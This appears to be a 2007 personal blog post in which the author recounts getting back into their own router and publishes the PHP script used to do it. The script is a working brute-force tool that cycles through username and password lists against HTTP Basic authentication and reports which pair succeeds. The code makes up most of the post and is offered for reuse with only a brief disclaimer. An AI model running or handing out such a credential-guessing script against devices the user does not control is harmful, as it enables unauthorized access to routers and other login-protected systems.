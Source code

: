 +++
title = "Hacking into my router by brute-forcing http authentication"
date = "2007-11-28T22:11:51-04:00"
tags = ["php"]
+++
Luckily I knew some possible usernames and some patterns that I could have used to construct my password, so I just had to try all the combinations... Too much work to do manually but easily done when scripted.</p>

<p>Here is the php script that I came up with.  (obviously stripped of my personal stuff).  It got my account in less then a second :)<!--more--></p>

<p><strong>DISCLAIMER</strong>:  Don't use this code for anything illegal!  I'm not responsible for what you do with this!</p>

{{< highlight "php" "style=default" >}}<![CDATA[

<?php

$host = '';

$port = '';

$url = '/';

$users = array();

$passes = array();

tryme($host,$url,$port);

foreach($users as $user) {

   foreach($passes as $pass) {

      tryme($host,$url,$port,$user,$pass);

   }

}



function tryme($host,$url = '/',$port = 80, $user = null,$pass =null ) {

   $result="FAIL";

   if(tryAccess($host,$url,$port, $user,$pass)) $result="SUCCESS";

   if($user && $pass) $userpass = "user $user pass $pass ";

   else $userpass = " without username & password";

   echo("Tried $userpass > $result\n");

}



function tryAccess($host,$url = '/',$port = 80, $user = null,$pass =null)  {

   $fp = @fsockopen ($host, $port, &$errno, &$errdesc);

   if (!is_resource ($fp)) {

      echo("Could't not open socket to server: $errno - $errdesc\n");

      return false;

   }

   @fputs ($fp, "POST $url HTTP/1.1\r\n");

   @fputs ($fp, "Host: $host\r\n");

   @fputs ($fp, "Connection: close\r\n");

   if($user && $pass) {

      @fputs ($fp, "Authorization: Basic " . base64_encode ("$user:$pass") . "\r\n");

   }

   @fputs($fp,"\r\n");

        

   $reply = '';

   $success = true;

   while (!@feof ($fp)) {

      $line = @fgets ($fp, 1024);

      if(strpos($line,'401 Unauthorized')) $success = false;

      $reply .= $line; 

   }

   @fclose ($fp);

   return $success;

}

?>

]]>{{< /highlight >}}

